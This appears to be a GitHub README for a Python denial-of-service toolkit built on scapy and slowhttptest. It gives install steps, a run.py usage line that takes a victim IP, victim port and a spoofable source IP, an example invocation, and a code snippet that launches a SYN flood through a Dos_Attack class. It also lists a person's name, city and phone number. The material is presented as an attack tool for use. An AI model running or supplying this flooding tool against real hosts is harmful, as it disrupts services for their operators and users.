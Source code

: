 # Jayesh Patel
# Toronto ON 
# 647-271-9971


prerequisites :
===============

Step 1 : Install Ubuntu / Kali / BackTrack Linux :

# apt-get install nikto
# apt-get install sushi
#  apt-get install ssh
# apt-get install tcpdump graphviz imagemagick python-gnuplot
# sudo apt-get install slowhttptest
# apt-get install subversion
# apt-get install aclocal
# apt-get install automaker
# pip install scapy 
# pip install iptools
# pip install ipaddress
# pip install ipaddr
# pip install pinject

# Git clone ……..

#  root@bt:~/dos# python run.py -h
usage: run.py [-h] c_num victim_ip victim_port source_ip source_port
Pass Arguments
positional arguments:
c_num        Enter Number of request
victim_ip    Enter Victim IP
victim_port  Enter Victim Port
source_ip    Enter Source IP
source_port  Enter Source Port        

# python run.py 10 192.168.10.1 100 random 80
# ls
run.py (main file)
scapy_dos.py (scapy file where we mentioned all attack)
slowhttptest (Tools for DoS)
tool_dos.py (Tools feel where we mentioned all tools based attack)


Find the following code for perform syn attack 
==============================================
from scapy_dos import Dos_Attack
from tool_dos import Dos_Tools 

res = Dos_Attack(sip, dip)
# we need run run SYN Attack, call function SYN_ATT from scapy_dos.py file with two argument
# def SYN_ATT(self, sport, dport):
res.SYN_ATT(sport, dport)       
===============================================


